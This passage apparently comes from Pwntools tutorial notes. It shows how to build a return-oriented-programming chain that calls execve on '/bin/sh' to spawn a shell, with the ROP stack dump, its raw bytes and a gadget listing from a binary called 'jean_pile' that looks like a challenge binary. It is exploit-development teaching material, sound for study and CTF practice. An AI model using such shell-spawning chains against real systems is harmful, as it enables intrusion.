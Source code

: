 Note that Pwntools was able to use the `pop rdx; pop r12; ret` gadget, and account for the extra value needed on the stack.   Also note that the symbolic value of each item is listen  in `rop.dump()`.  For  example, it shows that we are settings rdx=3435973836.

# Getting a shell

Sometimes, getting a shell can be pretty easy!  Let's call `execve` directly, and find an instance of `"/bin/sh\x00"` to pass as the first argument from somewhere within memory.

```py
context.binary = elf = ELF('/bin/sh')
libc = elf.libc

elf.address = 0xAA000000
libc.address = 0xBB000000

rop = ROP([elf, libc])

binsh = next(libc.search(b"/bin/sh\x00"))
rop.execve(binsh, 0, 0)
```

Show our ROP stack

```py
print(rop.dump())
# 0x0000:       0xbb11c1e1 pop rdx; pop r12; ret
# 0x0008:              0x0 [arg2] rdx = 0
# 0x0010:      b'eaaafaaa' <pad r12>
# 0x0018:       0xaa0061aa pop rdi; ret
# 0x0020:       0xbb1b75aa [arg0] rdi = 3139138986
# 0x0028:       0xaa005f73 pop rsi; ret
# 0x0030:              0x0 [arg1] rsi = 0
# 0x0038:       0xaa005824 execve
```

Extract the raw bytes for the ROP

```py
print(hexdump(bytes(rop)))
# 00000000  e1 c1 11 bb  00 00 00 00  00 00 00 00  00 00 00 00  │····│····│····│····│
# 00000010  65 61 61 61  66 61 61 61  aa 61 00 aa  00 00 00 00  │eaaa│faaa│·a··│····│
# 00000020  aa 75 1b bb  00 00 00 00  73 5f 00 aa  00 00 00 00  │·u··│····│s_··│····│
# 00000030  00 00 00 00  00 00 00 00  24 58 00 aa  00 00 00 00  │····│····│$X··│····│
# 00000040
```

## ROP chain

`rop.chain` command generate a chain that use gadgets available into the ELF binary.

Example:

[Shell python]
```shell
>>> elf = ELF('./jean_pile')

>>> rop = ROP(elf)

>>> rop.gadgets
{4195907: Gadget(0x400643, ['add esp, 8', 'ret'], [], 0x10),
 4195906: Gadget(0x400642, ['add rsp, 8', 'ret'], [], 0x10),
 4197002: Gadget(0x400a8a, ['leave', 'ret'], ['rbp', 'rsp'], 0x2540be407),
 4197244: Gadget(0x400b7c, ['pop r12', 'pop r13', 'pop r14', 'pop r15', 'ret'], ['r12', 'r13', 'r14', 'r15'], 0x28),
 4197246: Gadget(0x400b7e, ['pop r13', 'pop r14', 'pop r15', 'ret'], ['r13', 'r14', 'r15'], 0x20),
 4197248: Gadget(0x400b80, ['pop r14', 'pop r15', 'ret'], ['r14', 'r15'], 0x18),
```